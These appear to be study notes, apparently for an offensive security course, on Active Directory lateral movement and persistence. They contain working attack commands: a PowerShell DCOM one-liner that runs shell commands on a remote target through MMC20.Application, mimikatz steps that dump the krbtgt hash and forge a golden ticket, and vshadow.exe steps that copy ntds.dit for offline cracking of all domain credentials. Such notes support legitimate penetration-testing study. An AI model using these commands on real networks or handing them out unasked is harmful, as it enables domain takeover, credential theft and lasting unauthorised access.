 Distributed Component Object Model
system for creating software that interact with eachother

COM: Component Object Model: Microsoft

COM and DCOM are old tech, DCOM RPC 135 and need local admin

lateral movement technique is based on Microsoft Management Console COM application for scripted automation

MMC Application Class allows for Application Objects creation
it exposes ExecuteShellCommand method under Document.ActiveView

$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<target>"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c <command>","7")


Active Directory Persistence


Golden Ticket

if we can get krbtgt password hash we can create custom TGT: golden ticket

we can create a TGT stating a normal user is a member of Domain Admins Group, if correctly encrypted dc will trust it

note that only domain admin group or member can do this

mimikatz
privilege::debug
lsadump::lsa /patch
grab the NTLM of the krbtgt account

move to normal user
kerberos::purge
to clear tickets

kerberos::golden /user:<username> /domain:<domain> /sid:<domain sid> /krbtgt:<krbtgt user hash> /ptt

example:
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt


Shadow Copies

Volume Shadow Service: ms backup solution'

ms signed binary: vshadow.exe

as domain admin: use vshadow to extract ad database ntds.dit 

we grab the SYSTEMhive from the db, and then we can extract every user's credential offline on kali

vshadow.exe -nw -p  C:
-nw for no writers for faster backup
-p to paste on disk
